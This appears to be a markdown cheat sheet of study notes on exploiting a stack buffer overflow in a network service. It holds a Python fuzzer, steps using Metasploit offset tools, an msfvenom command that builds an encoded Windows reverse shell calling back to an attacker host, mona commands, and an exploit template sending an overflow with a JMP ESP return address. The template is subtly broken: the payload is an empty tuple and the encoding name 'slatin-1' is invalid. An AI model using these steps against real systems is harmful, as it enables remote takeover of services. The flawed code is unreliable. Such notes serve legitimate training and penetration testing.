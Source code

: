 # Buffer Overflow

## Fuzzer

{% embed url="https://github.com/AceSineX/BOF-fuzzer-python-3-All-in" %}

```python
#!/usr/bin/python3

import sys, socket
from time import sleep

buffer = "A" * 100
prefix = ""
while True:
 try:
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(('192.168.183.130',9999))

	payload = prefix + buffer

	s.send((payload.encode()))
	s.close()
	sleep(1)
	buffer = buffer + "A"*100

 except:
	print ("Fuzzing crashed at %s bytes" % str(len(buffer)))
	sys.exit()
```

## Steps

1. Fuzz and crash program w/ A's
2. Create msfpattern
   * `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600`
3. Provide EIP to find offset
   * `/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q (EIP value)`
4. Check for bad characters
5. Find JMP ESP/Return Address
   * make sure protection schemes are off and base address doesn't contain bad chars
6. Generate Shellcode
   * `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.x.x LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00"`
7. Exploit!

## Mona commands

```
!mona config -set workingfolder c:\mona\%p 
!mona bytearray -cpb "\x00"
!mona compare -f c:\mona\nameOfProgram\bytearray.bin -a ESP Address
!mona jmp -r ESP -m "module"
```

## Exploit.py

```python
import socket

ip = "MACHINE IP"
port = 9999


prefix = ""
offset = 2306
overflow = "A" * offset
retn = "\x0d\x11\x20\x11" # JMP ESP 1120110d
padding = "\x90" * 16 # nops
payload = ()
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "slatin-1"))
  print("Done!")
except:
  print("Could not connect.")
```
